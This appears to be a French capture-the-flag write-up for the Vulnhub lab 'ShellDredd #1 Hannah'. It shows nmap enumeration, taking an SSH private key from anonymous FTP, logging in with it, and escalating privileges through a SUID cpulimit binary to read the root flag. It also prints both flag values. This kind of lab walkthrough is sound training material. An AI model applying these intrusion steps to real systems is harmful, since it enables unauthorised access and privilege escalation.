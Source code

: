 ```yaml
---
layout: default
title: "Writeup OnSystem: ShellDredd #1 Hannah - Vulnhub"
date:   2020-09-05 03:00:00 +0200
published: true
categories:
  - Writeup
---
```


# Informations sur la box :

* **Difficulté** : Facile
* **Description** : *Flag: 2 (user & root). Enumeration & Privilege Escalation. This works better with VirtualBox rather than VMware*
* **Type de fichier** : .ova (VirtualBox)
* **DHCP** : Activé
* **Lien** : [https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/](https://www.vulnhub.com/entry/onsystem-shelldredd-1-hannah,545/)


### Ce que nous allons aborder dans ce writeup :

*	[Énumération](#énumération)
* 	[Shell basique](#shell-basique)
*	[Privilege escalation](#privilege-escalation)

* * *

## Énumération
* * *

Cette box est sans doute la box la plus rapide que j'ai faite !

On trouve l'adresse IP de la box à attaquer à l'aide de ``nmap`` :

```bash
nmap -sP 192.168.1.0/24
```

On obtient son adresse IP qui est la suivante : **192.168.1.108**

On scanne ensuite les ports pour trouver ceux qui sont ouverts avec les services qui tournent dessus :

```bash
nmap -sV -p- 192.168.1.108 -O -A --min-rate 5000 -T5
```

* **-sV** : Permet de scanner les services et d'indiquer les versions et les informations correspondantes
* **-p-** : On scan TOUS les ports
* **-O** : Détection de l'OS
* **-A** : Mode aggressif
* **--min-rate 5000** : Définit le nombre d'envoi de paquets par secondes
* **-T5** : Définit le template comme "rapide"

Pour plus d'informations vous pouvez consulter le ``man`` de nmap.

Le résultat est le suivant :

```bash
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.1.16
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 59:2d:21:0c:2f:af:9d:5a:7b:3e:a4:27:aa:37:89:08 (RSA)
|   256 59:26:da:44:3b:97:d2:30:b1:9b:9b:02:74:8b:87:58 (ECDSA)
|_  256 8e:ad:10:4f:e3:3e:65:28:40:cb:5b:bf:1d:24:7f:17 (EdDSA)
```

Le scan nous indique qu'il n'y a que deux ports ouverts et pas de serveur web. 

Le serveur **FTP** autorise les **connexion anonymes**. Grâce à ça on est presque sûr que le vecteur d'attaque (ou au moins des informations cruciales) seront récupérables via FTP.

On s'y connecte avec la commande suivante :

```bash
ftp 192.168.1.108
```

On précise l'utilisateur **anonymous** et on laisse le champ du mot de passe vide. On se retrouve connecté sur le FTP !

Un simple ``ls -la`` et on se retrouve avec un dossier nommé **.hannah**. On peut déjà se dire que ce sera potentiellement un utilisateur de la machine.

En se rendant dans ce répertoire on trouve une **clé privée SSH**.

```bash
get .hannah/id_rsa
```

On va l'utiliser pour se connecter au SSH avec l'utilisateur **hannah**. Si jamais une passphrase est nécessaire alors on devra utiliser ``john`` pour la craquer. 

Heureusement pour nous pas besoin de ça !

* * *

## Shell basique

```bash
chmod 600 id_rsa
ssh -i id_rsa hannah@192.168.1.108 -p 61000
```

On peut récupérer le flag utilisateur :

```bash
cat /home/hannah/user.txt
```
```
Gr3mMhbCpuwxCZorqDL3ILPn
```

* * *

## Privilege escalation

On cherche les potentiels binaires avec le **bit SUID** positionné :

```bash
find / -perm -4000 2>/dev/null
```

Deux binaires paraissent intéressant :

```
/usr/bin/mawk
/usr/bin/cpulimit
```

Bizarrement je n'ai pas réussi à exécuter une commande avec ``mawk`` en étant root. Chaque commande était bien exécutée mais en tant que l'utilisateur courant.

Cependant avec le deuxième on peut récupérer le contenu du fichier qui contient le flag du root :

```bash
/usr/bin/cpulimit -l 100 -f cat /root/root.txt
```
```
yeZCB44MPH2KQwbssgTQ2Nof
```

Merci à **d4t4s3c** pour cette box :)